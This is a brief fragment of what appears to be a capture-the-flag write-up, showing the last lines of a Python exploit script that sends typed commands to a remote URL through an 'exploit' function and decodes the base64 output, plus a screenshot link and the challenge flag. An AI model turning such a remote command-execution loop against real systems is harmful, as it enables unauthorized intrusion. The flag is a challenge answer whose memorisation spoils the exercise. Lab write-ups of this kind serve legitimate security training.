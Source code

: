 ```python
        return base64.b64decode(res[3:-3]).decode()


while True:
    command = input("> ")
    print(exploit(url, command))
```

![img](img/image_20250329-222921.png)

```flag
HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}
```
